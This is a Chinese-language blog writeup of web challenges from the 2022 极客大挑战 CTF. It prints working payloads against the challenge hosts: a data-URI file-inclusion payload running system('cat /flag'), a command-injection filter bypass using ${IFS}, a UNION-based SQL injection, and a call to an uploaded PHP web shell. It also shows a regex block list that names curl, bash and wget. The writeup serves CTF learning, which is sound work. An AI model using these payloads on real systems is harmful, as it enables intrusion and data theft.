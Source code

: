 ```yaml
---
title: "2022 极客大挑战 Web Writeup"
date: 2022-10-25T10:09:14+08:00
lastmod: 2022-10-25T10:09:14+08:00
draft: true
author: "X1r0z"

tags: ['ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


<!--more-->

## L0veSyc

flag 在 www.sycsec.com 官网

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251031657.png)

## Can Can Need

这题对于新生赛来说出的很不错, 扔掉了被用烂了的 xff 头, 同时加入了 From 头 (当然搜一下就能找到)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251035495.png)

## ezR_F_I

```
http://121.5.62.30:7005/include.php?file=data://text/plain,<?php system('cat /flag');?>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251032433.png)

## ezrce

```php
<?php
highlight_file(__FILE__);

/*
......
*/

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
   
   if(preg_match("/ls|tee|head|wegt|nl|vi|vim|file|sh|dir|cat|more|less|tar|mv|cp|wegt|php|sort|echo|bash|curl|uniq|rev|\"|\'| |\/|<|>|\\|/i", $ip,$match)) {
        die("hacker!");
    } else{
    system("ping -c 3 $ip");
    }
}
```

```
http://121.5.62.30:7006/?ip=1;ca\t${IFS}may_b3_y0u_can_pr0t3ct*
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251034609.png)

## 来发个包

右键注释

```javascript
window.onload = function(){
    var btn = document.getElementById('btn');
    btn.onclick = function(){
        var uname = document.getElementById('ifflag').value;
            var xhr = new XMLHttpRequest();
        var param = 'ifffflag='+uname;
        xhr.open('post','flag.php',true);
        xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        xhr.send(param);
        xhr.onreadystatechange = function(){
            if(xhr.readyState == 4){
                if(xhr.status == 200){
                    alert(xhr.responseText);
                }
            }
        }

    }
}
```

构造 http 包

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251037649.png)

## WelcomeSQL

```
http://120.77.11.65:8100/?id=-1 union select 1,group_concat(secret) from user_info
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251040736.png)

## babyupload

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251042057.png)

```
http://121.5.62.30:7009/upload/16666656892.php?a=system('cat /flag');
```

